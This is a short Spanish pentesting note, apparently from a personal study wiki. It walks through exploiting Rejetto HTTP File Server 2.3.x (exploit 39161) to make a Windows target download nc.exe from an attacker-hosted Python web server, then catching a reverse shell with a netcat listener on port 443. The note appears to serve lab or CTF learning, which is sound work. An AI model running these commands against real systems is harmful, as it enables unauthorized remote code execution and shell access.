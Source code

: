SI bien sabemos que con [[Metasploit#Creacion de listener|Meterpreter]] podemos crear una sesion de una shell, pero en este caso veremos como hacerla con netcat.

Para empezar debemos de tener la manera de la execucion remota de comando por lo tanto se hara uso de un exploit para HttpFileServer.

	searhsploit http file server
	Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                             | windows/remote/39161.py

Y copiaremos el exploit al direcctorio actual

	searchsploit -m 39161

Este exploit tiene como finalidad montar un servicio por el puerto 80 localmente el cual contenga el software nc.exe(*windows*) y que la maquina vicnima visite nuestro servidor y descargue y lo guarde, una vez mas se ejecuta y exploit para ejecutar el nc.exe y mandar una revert shell a nuestro equipo.

Primero ubicaremos el exe de netcat para windows y montar el servidor http con python.

	locate nc.exe
		/usr/share/windows-resources/binaries/nc.exe
	cp /usr/share/windows-resources/binaries/nc.exe . #copiamos al directorio actual

Ahora montar el servidor http con un modulo de python

	python -m SimpleHTTPServer 80

Nos ponemos en escucha por un puerto para resivir la shell desde bash.

	nc -nlvp 443 
